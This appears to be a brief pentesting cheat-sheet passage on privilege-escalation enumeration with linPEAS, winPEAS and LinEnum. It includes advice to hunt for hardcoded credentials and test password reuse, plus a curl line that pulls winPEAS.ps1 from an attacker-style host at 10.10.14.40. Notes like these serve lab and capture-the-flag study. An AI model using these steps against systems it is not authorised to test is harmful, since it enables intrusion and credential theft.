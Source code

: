 
### PEASS-ng - Privilege Escalation Awesome Scripts SUITE new generation
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q
```

WinPEAS can be found [here](https://github.com/carlospolop/PEASS-ng/releases)
```powershell
curl -o winPEAS.ps1 http://10.10.14.40:8000/winPEAS.ps1
```

### LinEnum
https://github.com/rebootuser/LinEnum
```bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts

./linenum.sh
```